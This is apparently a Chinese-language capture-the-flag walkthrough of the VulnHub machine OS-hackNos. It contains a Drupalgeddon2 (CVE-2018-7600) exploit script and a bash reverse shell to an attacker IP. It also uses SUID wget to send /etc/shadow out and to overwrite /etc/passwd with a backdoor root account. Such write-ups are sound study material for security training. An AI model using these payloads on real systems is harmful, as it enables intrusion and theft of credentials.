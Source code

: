 # HACKNOS: OS-HACKNOS

2025.02.16 https://www.vulnhub.com/entry/hacknos-os-hacknos,401/

[video](https://www.bilibili.com/video/BV1DqA5eREJF/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

先看 80 web，首页源码无隐藏内容，gobuster 目录扫描发现：

```
http://192.168.5.40/drupal               (Status: 301) [Size: 313] [--> http://192.168.5.40/drupal/]
http://192.168.5.40/alexander.txt        (Status: 200) [Size: 393]
```

访问 http://192.168.5.40/alexander.txt base64 转码 ：

```
KysrKysgKysrKysgWy0+KysgKysrKysgKysrPF0gPisrKysgKysuLS0gLS0tLS0gLS0uPCsgKytbLT4gKysrPF0gPisrKy4KLS0tLS0gLS0tLjwgKysrWy0gPisrKzwgXT4rKysgKysuPCsgKysrKysgK1stPi0gLS0tLS0gLTxdPi0gLS0tLS0gLS0uPCsKKytbLT4gKysrPF0gPisrKysgKy48KysgKysrWy0gPisrKysgKzxdPi4gKysuKysgKysrKysgKy4tLS0gLS0tLjwgKysrWy0KPisrKzwgXT4rKysgKy48KysgKysrKysgWy0+LS0gLS0tLS0gPF0+LS4gPCsrK1sgLT4tLS0gPF0+LS0gLS4rLi0gLS0tLisKKysuPA==

+++++ +++++ [->++ +++++ +++<] >++++ ++.-- ----- --.<+ ++[-> +++<] >+++.
----- ---.< +++[- >+++< ]>+++ ++.<+ +++++ +[->- ----- -<]>- ----- --.<+
++[-> +++<] >++++ +.<++ +++[- >++++ +<]>. ++.++ +++++ +.--- ---.< +++[-
>+++< ]>+++ +.<++ +++++ [->-- ----- <]>-. <+++[ ->--- <]>-- -.+.- ---.+
++.<
```

是一个 Brainfuck 编码，解密后内容为 james:Hacker@4514 尝试用此凭据 ssh 登陆，密码不对。

在看 http://192.168.5.40/drupal 这个 cms，使用上面得到的凭据登陆系统，版本为 Drupal 7，有可以直接的漏洞利用，https://github.com/firefart/CVE-2018-7600/blob/master/poc.py 使用这个 exp：

```python
import requests
import re

HOST="http://192.168.5.40/drupal/"

get_params = {'q':'user/password', 'name[#post_render][]':'passthru', 'name[#markup]':'id', 'name[#type]':'markup'}
post_params = {'form_id':'user_pass', '_triggering_element_name':'name'}
r = requests.post(HOST, data=post_params, params=get_params)
print(r.text)
m = re.search(r'<input type="hidden" name="form_build_id" value="([^"]+)" />', r.text)
if m:
    found = m.group(1)
    get_params = {'q':'file/ajax/name/#value/' + found}
    post_params = {'form_build_id':found}
    r = requests.post(HOST, data=post_params, params=get_params)
    print(r.text)
```

执行后，可以看到 www-data 的输出，直接反弹 shell：

```
get_params = {'q':'user/password', 'name[#post_render][]':'passthru', 'name[#markup]':'/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"', 'name[#type]':'markup'}
```

得到反弹的连接后，先的到了第一个 flag：

```
www-data@hackNos:/home/james$ cat user.txt
   _
  | |
 / __) ______  _   _  ___   ___  _ __
 \__ \|______|| | | |/ __| / _ \| '__|
 (   /        | |_| |\__ \|  __/| |
  |_|          \__,_||___/ \___||_|



MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b
```

发现 cms 数据库的配置文件：

```
www-data@hackNos:/var/www/html/drupal$ cat /var/www/html/drupal/sites/default/settings.php

$databases = array (
  'default' =>
  array (
    'default' =>
    array (
      'database' => 'cuppa',
      'username' => 'cuppauser',
      'password' => 'Akrn@4514',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```

进行系统枚举，发现 suid 程序 wget，尝试用 GTFOBin 中的方法，但是提示没有 --use-askpass 这个参数，应该是版本太老了：

```
TF=$(mktemp);chmod +x $TF;echo -e '#!/bin/sh\n/bin/sh -p 1>&0' >$TF;/usr/bin/wget --use-askpass=$TF 0
```

使用另外一种方式，wget 读取 root 用户文件，然后传输到 kali 上：

```
# kali 上监听8888
nc -lvnp 8888

# 目标机器上执行
wget --post-file=/etc/shadow 192.168.5.3:8888
```

这时在 kali 上得到了 shadow 文件：

```
root:$6$ii3GEj5H$DHrrLj9Q9Bpux.aVR9fy1e240PyBPSI/yh5WGRUyN7TN7Ulb5rFO0CoAVRY8UYvdxhgw142tkmgyqubP4l1ta0:18216:0:99999:7:::
james:$6$ImB2eoJe$bnE3xrR1mBD1WtBjccl2Nh74wqDqJtMklx1lTEJyouewzdWRICla32oHXz9YNq0hImAoCSkM2tRyvQhxEuO9e.:18216:0:99999:7:::
```

rockyou 尝试破解没戏。

同时也可以直接读 wget --post-file=/root/root.txt 192.168.5.3:8888 得到最后的 root flag：

```
    _  _                              _
  _| || |_                           | |
 |_  __  _|______  _ __  ___    ___  | |_
  _| || |_|______|| '__|/ _ \  / _ \ | __|
 |_  __  _|       | |  | (_) || (_) || |_
   |_||_|         |_|   \___/  \___/  \__|



MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b

Author : Rahul Gehlaut

Linkedin : https://www.linkedin.com/in/rahulgehlaut/

Blog : www.hackNos.com
```

另外一种提权到 root 的思路，wget 直接覆盖/etc/passwd 文件，在 kali 上将添加过后门用户的 passwd 写入到目标机器上：

```
openssl passwd -1 -salt new 456
$1$new$DEG4GSAwR8rsoc/FNKp0Q1

admin:$1$new$DEG4GSAwR8rsoc/FNKp0Q1:0:0:root:/root:/bin/bash
```

先读取目标机器上的 passwd 文件，将 `admin:$1$new$DEG4GSAwR8rsoc/FNKp0Q1:0:0:root:/root:/bin/bash` 添加到最后一行，在 kali 上创建 http，然后在目录机器上执行下面命令：

```
cd /etc
wget -O passwd http://192.168.5.3/z/passwd

su admin # 输入密码456
```

最终也得到了 root 权限：

```
root@hackNos:~# cat root.txt
    _  _                              _
  _| || |_                           | |
 |_  __  _|______  _ __  ___    ___  | |_
  _| || |_|______|| '__|/ _ \  / _ \ | __|
 |_  __  _|       | |  | (_) || (_) || |_
   |_||_|         |_|   \___/  \___/  \__|



MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b

Author : Rahul Gehlaut

Linkedin : https://www.linkedin.com/in/rahulgehlaut/

Blog : www.hackNos.com
```
